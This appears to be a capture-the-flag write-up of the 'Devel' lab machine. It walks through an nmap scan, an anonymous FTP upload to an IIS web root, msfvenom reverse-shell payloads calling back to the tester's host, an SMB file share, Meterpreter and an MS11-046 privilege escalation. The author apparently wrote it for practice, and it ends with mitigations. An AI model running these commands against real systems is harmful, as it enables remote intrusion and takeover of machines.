 # DEVEL

lets run an nmap scan

```text
# Nmap 7.91 scan initiated Mon Aug  2 13:45:06 2021 as: nmap -vvv -p 21,80 -sV -sC -oN devel 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.099s latency).
Scanned at 2021-08-02 13:45:06 IST for 13s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 13:45:19 2021 -- 1 IP address (1 host up) scanned in 13.05 seconds
```

So we have FTP and HTTP, lets explore FTP first, looking at the welcome.png and iisstart.htm, looks like, this is where the web server is getting its content from, So, first thing I did is try to upload something onto the FTP server, which seem to have worked. So I've copied the image file and renamed it and uploaded it again on to the FTP and am able to access it from the HTTP server \(this is how I was able to confirm\)

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f asp LHOST=10.10.14.25 LPORT=4242 -o pl.asp
```

i've tried above stuff to generate asp payload and upload it into the FTP server, but that didn't seem to have worked. So I started looking for 'IIS htm reverse shell' on Google. Meanwhile I tried fuzzing the HTTP server with asp, htm, txt extensions, only thing I've got is /aspnet\_client, we got until here, but all of them are forbidden

```text
http://10.10.10.5/aspnet_client/system_web
```

so, only thing seems like is we have to put something in the FTP and get it to run, so lets focus on that now, so I've got some link [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/), which we can try now, we have a config file now which I'm going to try

Seems, its only showing htm file, on other extensions it just shows file not found, and now we have look if anything like this with .htm files. So I've kinda figured we can do this with .aspx files as our msfvenom payload, so lets try that now,

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f aspx LHOST=10.10.14.25 LPORT=4242 -o pl.aspx
```

and upload this file through FTP and start a listener.

![](../../.gitbook/assets/image%20%285%29%20%282%29%20%282%29%20%282%29%20%282%29%20%281%29.png)

so, we got a revershell as the iis user, and not sure how I should proceed from now, So, I'll just try to upload a winpeas.exe file and run the local PrivEsc enumeration

I usually use the smbserver.py impacket thing to share the local kali drive. So, lets do that

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
cmd /c "copy <sourcefile> X:\"
```

so, this worked, but when I try to run the winpeas.exe command, it doesn't seem to work, which is when I've realized that I've been trying to run x64 winpeas on x86 machine. Even after changing, that didn't seem to have worked, So, I'm not sure what I can do at this stage

![](../../.gitbook/assets/image%20%287%29%20%281%29%20%281%29.png)

So, I've left to try the metasploit way now, where we can search for local exploits etc \(actually this I've got from ippsec video for this specific box\), so lets try that ourselves \(generating a meterpreter shell\)

![](../../.gitbook/assets/image%20%286%29%20%281%29.png)

![](../../.gitbook/assets/image%20%282%29.png)

```text
Navigating to c:\windows\TEMP is a good idea, as a large portion
of Metasploit’s Windows privilege escalation modules require a file to be written to the target
during exploitation

Running sysinfo in the Meterpreter session reveals that the target is x86 architecture, so it is
possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
not be said for running the module on x64
```

for some reason, our meterpreter exploit suggester doesn't work as expected, so I've used the exploit directly, which worked, and we're able to get the flags

![](../../.gitbook/assets/image.png)

there is another way we can do this local privilege escalation, I've got the exe file from this repo [https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe), we can just run it on our target machine where we have IIS user to get NT Authority user

Mitigations:

Operating system should be patched to avoid this sort of Local privilege escalation exploits. And dont allow Anonymous access on FTP and also dont allow uploads on FTP if not needed


